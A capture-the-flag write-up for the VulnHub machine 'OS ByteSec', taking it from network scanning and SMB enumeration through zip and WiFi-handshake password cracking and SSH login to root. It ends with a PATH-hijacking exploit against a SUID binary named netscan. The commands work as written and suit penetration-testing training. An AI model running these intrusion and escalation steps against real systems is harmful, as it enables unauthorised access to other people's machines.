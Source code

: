```yaml
---
published: true
title: Byte Sec
author: F3dai
image: 'https://imgur.com/DhdkXVo.png'
category: writeup
---
```


Flag : 2 Flag first user And second root. Learning : exploit, SMB, Enumration, Stenography, Privilege Escalation. We recommend that you use VirtualBox and not VMware for this VM 

**URL:** [OS ByteSec](https://www.vulnhub.com/entry/hacknos-os-bytesec,393/)

**Difficulty:** Intermediate

**Author:** Rahul Gehlaut

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![net](https://imgur.com/S2hIAEd.png)

We can identify the machine with the IP 192.168.56.116, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.56.116</pre>

![nmap](https://imgur.com/9wpz9b8.png)

We have identified ports 80 139 445 2525 are open. Ports 138 and 2525 are worth noting as they could be smb. Read more about Samba shares [here](https://en.wikipedia.org/wiki/Samba_(software))

To start, port 80 is open so we will investigate this port with a browser.

![web page](https://imgur.com/Dsajsd2.png)

At first glance, the bottom of the web page has the following text:

<pre>####################GET#####smb##############free </pre>

This is also seen in the page source:

![source](https://imgur.com/SvBX5zC.png)

This gives us a pretty obvious hint that there is probably samba running. Let's perform some enumeration based on this information with the tool [enum4linux](https://tools.kali.org/information-gathering/enum4linux). This tool is for enumerating information from Windows and Samba systems.  

<pre>enum4linux 192.168.56.116 </pre>

![enum4linux](https://imgur.com/vYR1FxN.png)

Known Usernames = administrator, guest, krbtgt, domain admins, root, bin, none.

Let's try and log into SMB with smbclient. This tool launches an ftp-like client to access SMB/CIFS resources on servers - [computerhope](https://www.computerhope.com/unix/smbclien.htm). 

Execute the following command:

<pre>smbclient //192.168.56.116/smb -U smb -p</pre>

To break this command down, we are specifying the //host/smb with user -U smb and -p enables a printer service rather than as a normal filespace service. 

![smb](https://imgur.com/1bH2oPc.png)

We are logged in. There is a file named safe.zip and main.txt which we will transfer to our local system with "get".

<pre>ls
get safe.zip
get main.txt</pre>

There doesn't seem to be anything on main.txt, let's have a look at the archive:

<pre>unzip safe.zip</pre>

![zip](https://imgur.com/xSLOmLR.png)

The .zip file seems to be password protected. There is a tool we can use to try and crack the password by brute forcing.

[fcrackzip](http://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html) is a zip file password cracker. 

<pre>fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip</pre>

To break down this command, -D specifies a dictionary attack, -p specifies the rockyou.txt dictionary and -u specifies the file we want to crack. The command will essentially try to decompress the zip archive using the passwords in the wordlist and return the password when successful.

![cracked](https://imgur.com/MWKqIPq.png )

A password has been found:

<pre>PASSWORD FOUND!!!!: pw == hacker1</pre>

Unzipping the file using the password gives us a .cap file. A .cap file is a packet capture file which can be analysed with traffic capture software such as Wireshark. To read more about this, [Life Wire](https://www.lifewire.com/cap-file-2622694) have a pretty good article on this. Let's open up the file with Wireshark.

Looking at the .cap file, we see the protocol 802.11 being used.
This Wireshark website explains the protocol that is seen on this traffic capture: [Wireshark](https://wiki.wireshark.org/CaptureSetup/WLAN#WLAN_.28IEEE_802.11.29_capture_setup)

After some research, we can identify WLAN as IEEE 802.11. These could be packets captured via WiFi. When analysing Wifi traffic, can often find a 3-way handshake whenever someone joins the network. We can try and crack this .cap file for any passwords.

Let's use aircrack-ng, a tool which accesses WiFi network security. Run the following command:

<pre>aircrack-ng user.cap -w /usr/share/wordlists/rockyou.txt</pre>

![aircrack](https://imgur.com/OMpwwRS.png)

Aircrack has found a password:

<pre>KEY FOUND! [ snowflake ]</pre>

There is a username that can easily be seen in the packet capture:

<pre>blackjax</pre>

![user](https://imgur.com/WlZqeW6.png)

Now that we have a username and password, let's try logging in with SSH. If you remember, a different port was open for ssh. 

<pre>cat nmap | grep ssh</pre>

SSH on port 2525.

<pre>ssh blackjax@192.168.56.116 -p 2525</pre>

![ssh login](https://imgur.com/Pp7yswG.png)

### Privilege Escalation

Let's upgrade our shell with the following command:

<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>

![python](https://imgur.com/mT2v1uP.png)

There are a few different home directories for users sagar, smb and blackjax:

![home](https://imgur.com/QtPdLtT.png)

This next section will be focusing on exploiting Set User ID (SUID). This is a good article about this if you want to read more:

[Recipe for Root](https://recipeforroot.com/suid-binaries/)

And another website for some priv esc with a section on SUID:

[Github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

The following command will identify any SUID enabled executables on the unix machine:

<pre>find / -user root -perm -4000 -print 2>/dev/null</pre>

![find](https://imgur.com/xbvuq3E.png)

For reference, these are a list of binaries native to Linux, meaning we should not investigate any of these:

<pre>ping
ping6
passwd
sudo
chfn
apring
gpasswd
chsh
chfn
mount
sudo
su
umount
mount
newgrp
pppd</pre>

One of the binaries identified from the command:

<pre>/usr/bin/netscan</pre>

This is evidently not native so let's have a closer look. Run the binary with the following command:

<pre>/usr/bin/netscan</pre>

![netscan](https://imgur.com/Gnd59wt.png)

Let's exploit this with the following commands:

<pre>cd /tmp
echo "/bin/bash" > netstat
chmod 777 netstat
export PATH=/tmp:$PATH
/usr/bin/netscan</pre>

These commands essentially create a file called netstat in /tmp with correct permissions. The export command marks an environment variable to be exported to child-processes. Then the netscan binary is run again.

![exploit](https://imgur.com/6fCCYU2.png)

And we are root, with root flag:

![root](https://imgur.com/Sxi9AWQ.png)
